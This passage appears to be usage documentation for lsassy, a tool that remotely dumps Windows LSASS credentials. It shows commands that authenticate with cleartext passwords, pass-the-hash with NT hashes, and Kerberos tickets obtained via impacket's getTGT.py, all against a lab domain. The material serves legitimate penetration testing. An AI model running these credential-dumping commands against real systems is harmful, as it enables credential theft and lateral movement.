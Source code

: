 #### Cleartext credentials

First and most obvious one is by using clear text credentials. It can either be a local or domain user.

```bash
## Local user
lsassy -u pixis -p p4ssw0rd server01.adsec.local

## Domain user
lsassy -d adsec.local -u jsnow -p WinterIsComing server01.adsec.local
```

#### Pass-the-hash

It is also possible to authenticate using user's NT hash. You can either provide LM:NT or only NT version.

```bash
lsassy -d adsec.local -u jsnow -H 38046f6aa4f7283f9a6b7e1575452109 server01.adsec.local
aad3b435b51404eeaad3b435b51404ee

## Or

lsassy -d adsec.local -u jsnow -H aad3b435b51404eeaad3b435b51404ee:38046f6aa4f7283f9a6b7e1575452109 server01.adsec.local
```

#### Kerberos

You can also authenticate using Kerberos. For this to work, you will need to have a valid ticket saved on disk, and ticket's path needs to be provided in `KRB5CCNAME` environment variable. For testing purpose, this can be achieved using impacket **getTGT.py** tool.

```bash
getTGT.py adsec.local/jsnow:WinterIsComing -dc-ip dc01.adsec.local
```

This command will request a TGT and save it in `jsnow.ccache` file.

In order for **lsassy** to know which ticket to use, you'll need to explicitly set the ticket's path in `KRB5CCNAME` environment variable.

```bash
export KRB5CCNAME="/home/pixis/jsnow.ccache"
```

When it's correctly configured, you should be able to use that ticket for authentication using `-k` parameter. Since you're using this ticket, you don't need to provide other authentication information anymore.

```bash
lsassy -k server01.adsec.local
```

Note that for this to work, you will need a valid DNS configuration, either dynamic with a valid DNS server, or static using `hosts` file. Moreover, you should always use FQDN when generating tickets and using **lsassy**, i.e. use `server01.adsec.local` instead of `server01`.
